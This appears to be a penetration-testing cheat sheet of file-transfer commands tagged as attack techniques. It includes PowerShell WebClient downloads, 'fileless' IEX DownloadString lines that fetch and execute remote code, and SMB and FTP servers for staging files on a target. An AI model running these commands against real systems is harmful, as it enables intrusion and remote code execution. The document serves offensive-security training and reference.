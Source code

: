 ## file transfers - windows - powershell web download 2
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "(New-Object Net.WebClient).DownloadFile('<TargetFileURL>','<Output File Name>')"
```

## file transfers - windows - powershell web download 3
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "(New-Object Net.WebClient).DownloadFileAsync('<TargetFileURL>','<Output File Name>')"
```

## file transfers - windows - powershell fileless download
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "IEX (New-Object Net.WebClient).DownloadString('<TargetFileURL>')"
```

## file transfers - windows - powershell fileless download 2
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "(New-Object Net.WebClient).DownloadString('<TargetFileURL>') | IEX"
```

## file transfers - linux - start  smbserver download/upload (old windows versions)
#plateform/linux #target/remote #port/445 #protocol/ #cat/ATTACK/
```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

## file transfers - linux - start smbserver download/upload (new windows versions)
#plateform/linux #target/remote #port/445 #protocol/ #cat/ATTACK/
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user user -password server
```

## file transfers - windows - mount smb download/upload
#plateform/windows #target/remote #port/445 #protocol/ #cat/ATTACK/
```
echo "net use n: \\<ip>\<sharename> /user:server <sharename>"
```

## file transfers - linux - start ftp server download/upload
#plateform/linux #target/remote #port/21 #protocol/ #cat/ATTACK/
```
sudo python3 -m pyftpdlib --port 21
```
